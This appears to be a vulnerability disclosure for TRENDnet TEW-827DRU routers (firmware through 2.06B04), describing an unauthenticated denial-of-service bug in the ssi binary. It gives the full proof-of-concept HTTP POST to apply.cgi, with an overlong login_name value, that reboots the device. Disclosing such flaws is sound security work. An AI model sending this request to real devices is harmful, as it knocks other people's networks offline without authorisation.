


# TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a DoS vulnerability in the ssi binary. The DoS vulnerability allows an unauthenticated user to reboot the device by POSTing to apply.cgi via the action reject with crafted package.
## detail


## send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 289

action=reject&html_response_page=aaaaaa.html&reject_url=aaa&login_name=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```